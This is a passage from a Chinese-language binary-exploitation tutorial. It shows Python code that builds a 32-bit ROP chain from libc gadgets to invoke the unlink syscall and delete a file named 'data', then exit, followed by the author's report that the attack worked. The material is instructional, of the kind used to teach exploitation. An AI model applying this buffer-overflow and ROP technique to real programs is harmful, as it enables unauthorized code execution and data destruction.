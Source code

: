 ```python
    # libc_addr + pop_eax,
    libc_addr + pop_edx, # 记录数据段起始
    dataSeg,
    libc_addr + pop_eax, # 存放 'data'
    b'data',
    libc_addr + mov_edx_eax, # 给数据段赋值 'data'

    libc_addr + pop_edx, # 跳到 4 字节后，添加一个空字符
    dataSeg + 4,
    libc_addr + xor_eax, # eax 置 0
    libc_addr + mov_edx_eax, # 添加一个零字节
    libc_addr + pop_ebx, # ebx 指向的是数据段起始，也是 'data' 所在
    dataSeg,

    libc_addr + xor_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    libc_addr + inc_eax,
    
    # data_addr,
    int_addr,
    0xffffffff, # padding

    # libc_addr + pop_eax,
    libc_addr + xor_eax,
    libc_addr + inc_eax,
    libc_addr + pop_ebx,
    0x11111111,
    int_addr,
    0xffffffff,
]

payload = b'a' * offset
for value in stack_values:
    try:
        payload += p32(value)
    except:
        payload += value
#payload += b'data'

with open('payload','wb') as f:
    f.write(payload)
```
现在我们再次尝试。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719065794175-f3a2ab24-e8db-4e61-ac52-a849423bfcec.png#averageHue=%23687f62&clientId=uf1920686-3db5-4&from=paste&height=721&id=u07b17fda&originHeight=1081&originWidth=1775&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=1240609&status=done&style=none&taskId=ue4dbadfd-501d-4e9c-890a-f41da2a4771&title=&width=1183.3333333333333)
注意下图中，我们同样成功调用了 unlink。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719066259446-440bb38a-f89c-4155-a29c-73b8c894170a.png#averageHue=%2380828c&clientId=uf1920686-3db5-4&from=paste&height=643&id=u3a55671f&originHeight=964&originWidth=1484&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=687824&status=done&style=none&taskId=u9b5ac0ff-48ef-4f80-b53f-2372b698493&title=&width=989.3333333333334)
最后 data 文件被删除，程序正常退出，正如我们所料。
![image.png](https://cdn.nlark.com/yuque/0/2024/png/43291115/1719066347258-3a928182-52bd-493e-b4fe-255cc940c1c5.png#averageHue=%235d7c6a&clientId=uf1920686-3db5-4&from=paste&height=687&id=ud43d112c&originHeight=1031&originWidth=1731&originalType=binary&ratio=1.5&rotation=0&showTitle=false&size=914402&status=done&style=none&taskId=u60457ac7-cb2e-4930-a6a1-4a6019bd334&title=&width=1154)
## 参考文章
